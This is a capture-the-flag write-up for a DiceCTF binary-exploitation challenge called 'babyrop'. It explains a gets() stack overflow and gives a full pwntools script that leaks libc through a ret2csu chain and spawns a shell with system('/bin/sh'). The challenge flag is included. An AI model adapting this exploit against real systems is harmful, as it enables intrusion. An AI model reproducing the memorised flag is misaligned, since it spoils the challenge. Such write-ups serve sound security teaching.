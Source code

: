 # babyrop
author: joshdabosh

"FizzBuzz101: Who wants to write a ret2libc"

`nc dicec.tf 31924`

**Files**: `babyrop`
```sh
$ checksec babyrop
[*] 'babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
## Solving
main() has a simple `write(1, "Your name: ")` introduction, and takes in an infinite input via `gets()`. The challenge expects solvers to use the [ret2csu](https://www.rootnetsec.com/ropemporium-ret2csu/) method to leak libc via `write()`, and considering I _just did that [last week](https://github.com/IRS-Cybersec/ctfdump/tree/master/0x41414141%202021/external)_, doing this again was an exercise in boredom:
```python
from pwnscripts import *
context.binary = 'babyrop'
context.libc_database = '../libc-database'
PAD = 64+8
scratch = context.binary.bss(0x500)

r = remote('dicec.tf', 31924)
context.log_level = 'debug'
R = ROP(context.binary)
R.raw(PAD*b'A')
R.ret2csu(edi=1, rsi=context.binary.got['write'], rdx=6, rbp=scratch)
R.write()
R.write(1,context.binary.got['gets'])
R.main()
r.sendlineafter('Your name: ', R.chain())

libc_leaks = {f:unpack_bytes(r.recv(6),6) for f in ['write', 'gets']}
context.libc = context.libc_database.libc_find(libc_leaks)
R = ROP(context.libc)
R.raw(PAD*b'A')
R.system(context.libc.symbols['str_bin_sh'])
r.sendlineafter('Your name: ', R.chain())
r.interactive()
```
I'm using [a personal patch](https://github.com/152334H/pwntools/) of the [ret2csu branch](https://github.com/Gallopsled/pwntools/pull/1429) of pwntools to have `R.ret2csu()` work automagically. With `write()` working, all you need is libc-database + [pwnscripts](https://github.com/152334H/pwnscripts) to mop up the trivial details regarding returning to libc & calling `system("/bin/sh")`.

## Flag
`dice{so_let's_just_pretend_rop_between_you_and_me_was_never_meant_b1b585695bdd0bcf2d144b4b}`
